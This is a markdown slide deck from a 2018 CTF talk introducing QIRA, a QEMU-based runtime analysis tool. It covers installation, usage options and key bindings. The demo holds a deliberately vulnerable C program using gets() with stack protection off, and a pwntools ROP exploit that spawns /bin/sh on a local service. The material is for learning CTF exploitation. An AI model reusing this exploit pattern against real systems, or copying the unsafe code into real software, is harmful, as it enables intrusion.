




# Pwnable Time Machine: QIRA

2018/11/25 UCCU <!-- .element: align="left" -->

DuckLL <!-- .element: align="right" -->


---

# About Me

- Name: 廖子慶
- ID: DuckLL
- Blog: http://www.duckll.tw
- CTF: Pwnable, Reversing

<div style="float:right;width:50%;">

 <!-- .element: width="50%" -->

</div>

--

# Outline

1. PWN
1. QIRA
1. Demo

---

# Pwn

- Stack Overflow
- Format String
- Heap Exploit
- Information Leak
- Shellcode
- ROP

--



--



--

# Tool



---

# QIRA

QEMU Interactive Runtime Analyser

http://qira.me/

--

# Author


## geohot

--

# Install

 <!-- .element: width="50%" -->

- [DuckLL/qira](https://github.com/DuckLL/qira)
- [ctf-box](https://hub.docker.com/r/duckll/ctf-box/)

--

# Usage

```
usage: qira.py [-h] [-s] [-t] [--gate-trace ADDRESS] [--flush-cache] [--pin]
               [--host HOST] [--web-port PORT] [--socat-port PORT] [-S]
               [--engine ENGINE]
               binary [args [args ...]]

Analyze binary. Like "qira /bin/ls /"

positional arguments:
  binary                path to the binary
  args                  arguments to the binary

optional arguments:
  -h, --help            show this help message and exit
  -s, --server          bind on port 4000. like socat
  -t, --tracelibraries  trace into all libraries
  --gate-trace ADDRESS  don't start tracing until this address is hit
  --flush-cache         flush all QIRA caches
  --pin                 use pin as the backend, requires ./pin_build.sh
  --host HOST           listen address for web interface and socat. 0.0.0.0 by
                        default
  --web-port PORT       listen port for web interface. 3002 by default
  --socat-port PORT     listen port for socat. 4000 by default
  -S, --static          enable static2
  --engine ENGINE       static engine to use with static2 (builtin or r2)
```

- -s 伺服器模式
- 瀏覽器：localhost:3002
- 間聽：localhost:4000

--

# Control Key

- 上下 前後一個指令
- 左右 切換不同次執行狀態
- j 後一個同樣執行位置
- k 前一個同樣執行位置
- n 函數命名
- : 註解

---

# DEMO

```c
#include <stdio.h>
#include <stdlib.h>
void vul(){
    char buf[4];
    gets(buf);
    return;
}
int main(int argc, char *argv[])
{
    system("cal");
    vul();
    return 0;
}
```

```sh
gcc --no-stack-protector demo.c
```

[a.out](https://drive.google.com/open?id=1pNAuYee6dCg8PI5z4ZlFkGHU22bleklx)

--

# Exploit

```python
from pwn import *
context.arch='amd64'

elf=ELF('./a.out')
system=elf.plt['system']
gets=elf.plt['gets']
buf=elf.bss()+0xf00
pop_rdi=0x400613

io=remote('localhost',4000)

payload="A"*24+flat(pop_rdi,buf,gets,pop_rdi,buf,system)

io.sendlineafter("30",payload)
io.sendline("/bin/sh")
io.interactive()
```

--

# 超猛跨平台

- i386
- amd64
- arm

--

# 小心地雷

- 沒有 DEP
- 沒有 ASLR
- Leak 會遇到 00 斷掉

---

# Q & A

--

# END

Thank you for listening
